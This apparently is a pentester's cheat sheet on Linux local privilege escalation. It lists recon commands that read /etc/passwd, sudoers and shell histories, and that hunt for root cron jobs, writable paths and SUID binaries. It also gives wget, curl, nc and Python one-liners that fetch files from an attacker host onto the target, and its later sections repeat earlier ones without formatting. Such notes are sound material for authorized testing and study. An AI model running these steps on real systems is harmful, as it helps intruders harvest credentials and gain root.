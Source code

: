 # Linux - Local Privilege Escalation

### Recon

###### Initial recon

| Description | Command |
|-------------|---------|
| OS | cat /etc/*-release <br/>cat /etc/lsb-release |
| Kernel | uname -a <br/> cat /proc/version <br/> rpm -q kernel |
| Current user | id <br/>whoami |
| All users    | cat /etc/passwd |
| Super users | awk -F: '($3 == "0") {print}' /etc/passwd |
| Sudoers | cat /etc/sudoers <br/> sudo -l |

###### Home directories content

The users home directories may contain sensible information such as config files
or history files.    
The following commands can be used to display the content of the users home
directories:

```bash
# Home
ls -lah /home/*
ls -ahlR /home/
find /home -type f -printf "%f\t%p\t%u\t%g\t%m\n" 2>/dev/null | column -t
tree -pugfai /home

# Histories
cat ~/.bash_history
cat ~/.nano_history
```

###### Installed programs

The installed programs should be reviewed for potential known
vulnerabilities.  
To review the installed programs of the target:

```bash
dpkg -l
apt list --installed
rpm -qa
ls -lah /usr/bin
ls -lah /usr/sbin
```

###### Scheduled tasks

Look for tasks running as root from script that you can modify:

```bash
crontab -l
ls -alh /var/spool/cron
ls -al /etc/ | grep cron
cat /etc/cron*
cat /var/spool/cron/crontabs/root
```

###### Compilers/languages installed/supported

The supported languages may be levaraged to compile exploit against the
operating system / kernel.  
To find out which compilers / languages can be used:
```bash
# C / C++
find / -name gcc* 2>/dev/null
find / -name g++* 2>/dev/null
find / -name clang* 2>/dev/null

# Python
python --version
find / -name python* 2>/dev/null

# Ruby
ruby --version
find / -name ruby* 2>/dev/null

# Perl
perl --version
find / -name perl* 2>/dev/null

# PHP
php --version
find / -name php* 2>/dev/null
```

Writable files & directories

/dev/shm
/tmp
File
find / -perm -2 -type f 2>/dev/null
find / -type f \( -perm -g+w -or -perm -o+w \) -exec ls -lahd {} \; 2>/dev/null

Directory
find / -perm -2 -type d 2>/dev/null
find / -type d \( -perm -g+w -or -perm -o+w \) -exec ls -lahd {} \; 2>/dev/null


File transfer tools

wget / Curl / netcat / nc / Python
wget -O file http://<IP>:<PORT>t/filename
curl http://<IP>:<PORT>/filename > file
nc -l -p <PORT> > file
python -c "from urllib import urlretrieve; urlretrieve('http://<IP>:<PORT>/file', 'file')"
python3 -c "from urllib.request import urlretrieve; urlretrieve('http://<IP>:<PORT>/file', 'file')"

See General Attack / File Transfer


Enum scripts

LinEnum.sh
unix-privesc-check
linuxprivchecker.py
Linux_Exploit_Suggester.pl

/opt/priv_esc/linux/


###### Files with the SUID Bit Set
find / -user root -perm -4000 -ls 2>/dev/null
find / -type f -user root -perm -4000 -exec stat -c "%A %a %n" {} \; 2>/dev/null

Files with the SGID Bit Set
find / -user root -perm -2000 -ls 2>/dev/null
find / -type f -user root -perm -2000 -exec stat -c "%A %a %n" {} \; 2>/dev/null

Both
find / -user root -perm -6000 -ls 2>/dev/null
find / -type f -user root -perm -6000 -exec stat -c "%A %a %n" {} \; 2>/dev/null

Installed programs

dpkg -l
apt list --installed
rpm -qa
ls -lah /usr/bin
ls -lah /usr/sbin


Scheduled tasks

crontab -l
ls -lah /etc/ | grep cron
ls -lah /etc/cron*
ls -lah /var/spool/cron

cat /etc/cron.X/*
...


Histories

history
cat ~/.bash_history
cat ~/.nano_history

